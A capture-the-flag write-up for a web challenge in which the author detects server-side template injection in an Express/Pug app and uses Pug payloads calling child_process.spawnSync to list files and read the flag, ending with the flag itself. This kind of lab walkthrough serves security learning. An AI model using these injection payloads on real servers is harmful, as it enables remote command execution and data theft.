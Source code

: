 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I decide to enter my username as "a", which results in:

![](../images/greetings-part-3.png)

I then glance at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

Wondering what would happen if I deleted the `?username` field from the URL, I change the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which results in:

![](../images/greetings-part-4.png)

I then open Burpsuite. While browsing through the requests and responses, I notice something interesting in one of the responses:

![](../images/greetings-part-5.png)

Express is a framework for Node, which is written in Javascript. Due to this, I now have many Javascript exploits to choose from. I decide to use a Javascript SSTI first, so I enter:

![](../images/greetings-part-6.png)

Now, if the website gives me an error after executing this, it is vulnerable to SSTI (as this sends a broken template to the server. If the server doesn't process templates from the user, it wouldn't give an error). I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking through the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server, as the `/app/` directory contains the subdirectory of `/node_modules/`. So, I type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) to be able to create subprocesses (`.require('child_process')`). Then, a new processes is created by the server, executing the shellcode of `ls /usr/src/app/` (`.spawnSync('ls', ['/usr/src/app/'])), with the standard output of the command enabled (`.stdout`). I then execute the command, which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

This command is very similar to my previous command, but instead of listing all the files in the `/usr/src/app/` directory, it uses the `cat` comamnd to output the contents of `flag.txt`. I then execute the command, which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










